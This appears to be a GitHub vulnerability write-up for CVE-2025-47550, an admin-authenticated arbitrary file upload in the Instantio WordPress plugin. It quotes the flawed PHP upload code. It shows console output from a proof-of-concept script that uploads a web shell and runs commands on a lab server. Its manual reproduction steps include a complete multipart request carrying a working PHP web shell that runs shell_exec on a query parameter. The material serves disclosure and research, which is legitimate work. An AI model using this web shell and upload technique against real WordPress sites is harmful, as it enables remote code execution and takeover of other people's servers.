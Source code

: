 # Instantio - Wordpress Plugin <= 3.3.16 - Authenticated (Admin+) Arbitrary File Upload via ins_options_save

The [Instantio](https://wordpress.org/plugins/instantio/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47550.py](./CVE-2025-47550.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
% python3 CVE-2025-47550.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 33750sec preferred_lft 33750sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86119sec preferred_lft 14119sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `ins_options_save` functionality in `/wp-content/plugins/instantio/admin/tf-options/classes/Ins_TF_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [965-972](https://plugins.trac.wordpress.org/browser/instantio/trunk/admin/tf-options/classes/Ins_TF_Settings.php#L965-972) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Instantio -> Settings`.

2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 

3. Click the `Save` button in the lower right hand corner. 
![test1](./images/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](./images/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```


6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](./images/3.png)